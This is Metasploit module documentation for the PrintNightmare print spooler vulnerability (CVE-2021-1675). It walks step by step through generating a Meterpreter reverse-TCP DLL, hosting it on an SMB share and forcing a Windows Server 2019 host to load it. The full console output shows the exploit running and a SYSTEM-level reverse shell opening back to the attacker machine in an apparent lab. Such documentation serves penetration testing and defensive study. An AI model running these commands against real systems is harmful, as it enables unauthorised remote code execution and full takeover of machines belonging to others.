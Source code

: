 ## Vulnerable Application
The print spooler service can be abused by an authenticated remote attacker to load a DLL through a crafted DCERPC
request, resulting in remote code execution as NT AUTHORITY\SYSTEM.

## Verification Steps

1. Optionally, create a DLL payload that the target will execute
    1. From msfconsole
    1. Do: `use payload/windows/x64/meterpreter/reverse_tcp`
    1. Set the `LHOST` and `LPORT` values
    1. Do: `to_handler` to start the payload handler
    1. Do: `generate -f dll -o /path/to/save/the/payload.dll` to generate the DLL file
1. Start an SMB server with anonymous read access containing the DLL payload
1. Exploit the vulnerability to force the target to load the DLL payload
    1. From msfconsole
    1. Do: `use auxiliary/admin/dcerpc/cve_2021_1675_printnightmare`
    1. Set the `RHOSTS` values
    1. Set the `SMBUser` and `SMBPass` values
    1. Set the `DLL_PATH` value to the UNC path to the server and payload DLL like `\\192.168.0.2\public\payload.dll`
    1. Run the module

## Options

### DLL_PATH

The path to the DLL that the server should load. This path can either be a network-based UNC path or a local path on the
remote target. The DLL will be copied to the remote server using the same filename.

If the DLL is a payload generated by Metasploit, know that only a single session can be active per target at any time
due to how these payloads are synchronized. If the session closes, dies, or the user migrates to a new process, the same
DLL can be used again otherwise a new DLL will need to be created for each simultaneously active session. One DLL can
however be used to establish multiple sessions simultaneously so long as each session is on a different target.

## Scenarios

### Windows Server 2019

First, generate the payload DLL or use an existing one. Copy it to the SMB server and note the UNC path. Any DLL can be
used but the architecture must match the host. This example generates a 64-bit Meterpreter payload using the Reverse TCP
stager.

```
msf6 > use payload/windows/x64/meterpreter/reverse_tcp
msf6 payload(windows/x64/meterpreter/reverse_tcp) > set LHOST 192.168.159.128 
LHOST => 192.168.159.128
msf6 payload(windows/x64/meterpreter/reverse_tcp) > to_handler 
[*] Payload Handler Started as Job 0
msf6 payload(windows/x64/meterpreter/reverse_tcp) > 
[*] Started reverse TCP handler on 192.168.159.128:4444 

msf6 payload(windows/x64/meterpreter/reverse_tcp) > generate -f dll -o /tmp/reverse_tcp.x64.dll
[*] Writing 8704 bytes to /tmp/reverse_tcp.x64.dll...
msf6 payload(windows/x64/meterpreter/reverse_tcp) >
```

Next, use the module to trigger loading the DLL. Note that when setting the `DLL_PATH` option, the `\` characters are
doubled so that they are escaped on the command line.

```
msf6 payload(windows/x64/meterpreter/reverse_tcp) > use auxiliary/admin/dcerpc/cve_2021_1675_printnightmare 
msf6 auxiliary(admin/dcerpc/cve_2021_1675_printnightmare) > set DLL_PATH \\\\192.168.159.128\\public\\reverse_tcp.x64.dll
DLL_PATH => \\192.168.159.128\public\reverse_tcp.x64.dll
msf6 auxiliary(admin/dcerpc/cve_2021_1675_printnightmare) > set RHOSTS 192.168.159.96
RHOSTS => 192.168.159.96
msf6 auxiliary(admin/dcerpc/cve_2021_1675_printnightmare) > set SMBUSER aliddle
SMBUSER => aliddle
msf6 auxiliary(admin/dcerpc/cve_2021_1675_printnightmare) > set SMBPASS Password1
SMBPASS => Password1
msf6 auxiliary(admin/dcerpc/cve_2021_1675_printnightmare) > run
[*] Running module against 192.168.159.96

[*] 192.168.159.96:445 - Target environment: Windows v10.0.17763 (x64)
[*] 192.168.159.96:445 - Binding to 12345678-1234-abcd-ef00-0123456789ab:1.0@ncacn_np:192.168.159.96[\spoolss] ...
[*] 192.168.159.96:445 - Bound to 12345678-1234-abcd-ef00-0123456789ab:1.0@ncacn_np:192.168.159.96[\spoolss] ...
[*] 192.168.159.96:445 - Enumerating the installed printer drivers...
[*] 192.168.159.96:445 - Using driver path: C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_2097e02ea77b432e\Amd64\UNIDRV.DLL
[*] 192.168.159.96:445 - Using directory: C:\Windows\system32\spool\DRIVERS\x64
[*] 192.168.159.96:445 - RpcAddPrinterDriverEx response 0 ERROR_SUCCESS (The operation completed successfully.)
[*] Sending stage (200262 bytes) to 192.168.159.96
[*] 192.168.159.96:445 - Error STATUS_PIPE_BROKEN (The pipe operation has failed because the other end of the pipe has been closed.)
[-] 192.168.159.96:445 - Error STATUS_PIPE_CLOSING (The specified named pipe is in the closing state.)
[-] 192.168.159.96:445 - Error STATUS_PIPE_CLOSING (The specified named pipe is in the closing state.)
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/cve_2021_1675_printnightmare) > [*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.96:49732) at 2021-07-02 15:59:30 -0400

msf6 auxiliary(admin/dcerpc/cve_2021_1675_printnightmare) > sessions -i -1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-3MSP8K2LCGC
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : MSFLAB
Logged On Users : 9
Meterpreter     : x64/windows
meterpreter >
```
